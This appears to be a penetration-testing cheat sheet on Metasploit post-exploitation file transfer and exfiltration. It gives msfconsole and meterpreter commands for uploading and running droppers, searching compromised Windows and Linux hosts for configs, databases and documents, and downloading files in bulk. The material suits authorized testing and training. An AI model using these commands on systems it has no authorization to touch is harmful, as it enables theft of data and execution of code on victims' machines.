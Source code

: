 # Metasploit

Search Tag(s): #post-exploitation #file-transfer-and-data-exfiltration #command-and-control #T1041 #metasploit-framework

## Search specific file extensions

### Post Module

#### Linux

Upload file droppers and execute it with arguments.

```
msf > use post/multi/manage/upload_exec

msf post(multi/manage/upload_exec) > options 

Module options (post/multi/manage/upload_exec):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   ARGS                      no        Command-line arguments to pass to the uploaded file
   LPATH                     yes       Local file path to upload and execute
   RPATH                     no        Remote file path on target (default is basename of LPATH)
   SESSION                   yes       The session to run this module on
   TIMEOUT  60               yes       Timeout for command execution


View the full module info with the info, or info -d command.

msf post(multi/manage/upload_exec) > set lpath /path/to/local/file

msf post(multi/manage/upload_exec) > set args "[arguments]"

msf post(multi/manage/upload_exec) > set rpath /path/to/remote/file

msf post(multi/manage/upload_exec) > set session <session_ID>

msf post(multi/manage/upload_exec) > run
```

#### Windows

MSF Windows Gather Generic File Collection Post Module.

```
msf > use post/windows/gather/enum_files

msf post(windows/gather/enum_files) > options

Module options (post/windows/gather/enum_files):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   FILE_GLOBS   *.config         yes       The file pattern to search for in a filename
   SEARCH_FROM                   no        Search from a specific location. Ex. C:\
   SESSION                       yes       The session to run this module on


View the full module info with the info, or info -d command.

msf post(windows/gather/enum_files) > set file_globs *.txt or *.zip or *.tar.* or *.tgz or *.cab or *.rar or *.pdf or *.doc? or *.ppt? or *.pps? or *.pot? or *.xls? or *.config* or *.sql or *.db

msf post(windows/gather/enum_files) > set search_from C:\\path\\to\\directory\\

msf post(windows/gather/enum_files) > set session <session_ID>

msf post(windows/gather/enum_files) > run
```

### Interactive Session

> [!INFO]
> By default it searches files recursively.

Search files in a specific directory (`-d`) with file extensions with patterns (`-f`).

```
meterpreter > search -d [<drive_letter>:]/path/to/directory/ -f *.txt -f *.zip -f *.tar.* -f *.tgz -f *.cab -f *.rar -f *.pdf -f *.doc? -f *.ppt? -f *.pps? -f *.pot? -f *.xls? -f config* -f *.sql -f *.db -f *.png -f *.jpg -f *.jpeg
```

Find files modified after timestamp (UTC).

```
meterpreter > search -a YYYY-mm-dd -d [<drive_letter>:]/path/to/directory/

meterpreter > search -a YYYY-mm-ddTHH:MM:SS -d [<drive_letter>:]/path/to/directory/
```

Find files modified before timestamp (UTC).

```
meterpreter > search -b YYYY-mm-dd -d [<drive_letter>:]/path/to/directory/

meterpreter > search -b YYYY-mm-ddTHH:MM:SS -d [<drive_letter>:]/path/to/directory/
```

## Download Files

### Interactive Session

#### Meterpreter

Download single file.

```
meterpreter > download [<drive_letter>:]/path/to/remote/file.txt /path/to/local/directory/
```

Resume partially-downloaded file.

```
meterpreter > download -c [<drive_letter>:]/path/to/remote/file.txt /path/to/local/directory/
```

Download multiple files using wildcard.

```
meterpreter > download [<drive_letter>:]/path/to/remote/*.txt /path/to/local/directory/
```

Download multiple files in a directory recursively.

```
meterpreter > download -r [<drive_letter>:]/path/to/remote/directory/ /path/to/local/directory/
```

Download files with multiple retries.

```
meterpreter > download -l 5 [-c] -r [<drive_letter>:]/path/to/remote/directory/ /path/to/local/directory/
```

Enable adaptive download buffer size.

```
meterpreter > download -l 5 -a -r [<drive_letter>:]/path/to/remote/directory/ /path/to/local/directory/
```

Set the initial block size for the download.

```
meterpreter > download -l 5 -b -r [<drive_letter>:]/path/to/remote/directory/ /path/to/local/directory/
```

#### Meta Shell

```
download /path/to/remote/file /path/to/local/file
```

### Post Module

TODO: Fill this info

Download and execute batch files

```
msf > use post/windows/manage/download_exec
```

## Upload Files

### Meterpreter

```
meterpreter > upload -h
Usage: upload [options] src1 src2 src3 ... destination

Uploads local files and directories to the remote machine.

OPTIONS:

    -h  Help banner
    -r  Upload recursively
```

### Meta Shell

```
upload /path/to/local/file /path/to/remote/file
```

### Post Module

Upload file droppers and execute it with arguments.

```
msf > use post/multi/manage/upload_exec

msf post(upload_exec) > options

Module options (post/multi/manage/upload_exec):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   ARGS                      no        Command-line arguments to pass to the uploaded file
   LPATH                     yes       Local file path to upload and execute
   RPATH                     no        Remote file path on target (default is basename of LPATH)
   SESSION                   yes       The session to run this module on
   TIMEOUT  60               yes       Timeout for command execution


View the full module info with the info, or info -d command.

msf post(multi/manage/upload_exec) > set lpath /path/to/local/file

msf post(multi/manage/upload_exec) > set args "[arguments]"

msf post(multi/manage/upload_exec) > set rpath /path/to/remote/file

msf post(multi/manage/upload_exec) > set session <session_ID>

msf post(multi/manage/upload_exec) > run
```

---
## References

### Rapid7

- [Rapid7: Metasploit Framework - Upload Exec Post Module](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/post/multi/manage/upload_exec.md)

### MITRE

- [MITRE T1041: Exfiltration Over C2 Channel](https://attack.mitre.org/techniques/T1041/)

### Offensive Security

- [Metasploit Unleashed: Searching Content](https://www.offsec.com/metasploit-unleashed/searching-content/)